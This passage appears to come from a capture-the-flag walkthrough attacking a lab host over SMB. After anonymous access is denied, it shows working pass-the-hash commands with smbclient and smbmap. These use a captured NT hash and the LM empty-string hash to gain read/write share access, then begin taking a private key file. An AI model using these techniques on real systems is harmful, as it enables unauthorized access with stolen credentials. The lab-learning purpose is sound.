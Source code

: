 

    root@kali# smbmap -H 10.10.10.107
    [+] Finding open SMB ports....
    [+] Guest SMB session established on 10.10.10.107...
    [+] IP: 10.10.10.107:445        Name: 10.10.10.107                                      
            Disk                                                    Permissions
            ----                                                    -----------
    [!] Access Denied

    root@kali# smbclient -N -L //10.10.10.107
    Anonymous login successful
    tree connect failed: NT_STATUS_ACCESS_DENIED



Fortunately, SMB allows pass the hash, and I now have a hash for
alice1978. To use a hash with `smbclient`, you just the same
`-U username%password` format, but just put the hash in place of the
password, and add the `--pw-nt-hash` option:



    root@kali# smbclient -L \\\\10.10.10.107 --pw-nt-hash -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B

            Sharename       Type      Comment
            ---------       ----      -------
            alice           Disk      Alice's Windows Directory
            IPC$            IPC       IPC Service (Samba Server)
    Reconnecting with SMB1 for workgroup listing.

            Server               Comment
            ---------            -------

            Workgroup            Master
            ---------            -------



I can do the same thing with `smbmap` just giving the hash as a
password, but it requires a hash in LM:NT format. I can just add the LM
hash for the empty string, aad3b435b51404eeaad3b435b51404ee.



    root@kali# smbmap -u alice1978 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
    [+] Finding open SMB ports....
    [+] Hash detected, using pass-the-hash to authentiate
    [+] User session establishd on 10.10.10.107...
    [+] IP: 10.10.10.107:445        Name: 10.10.10.107                                      
            Disk                                                    Permissions
            ----                                                    -----------
            alice                                                   READ, WRITE
            IPC$                                                    NO ACCESS



#### Connect and Collect

I'll connect to the alice share and grab the only file there, a ppk
file:
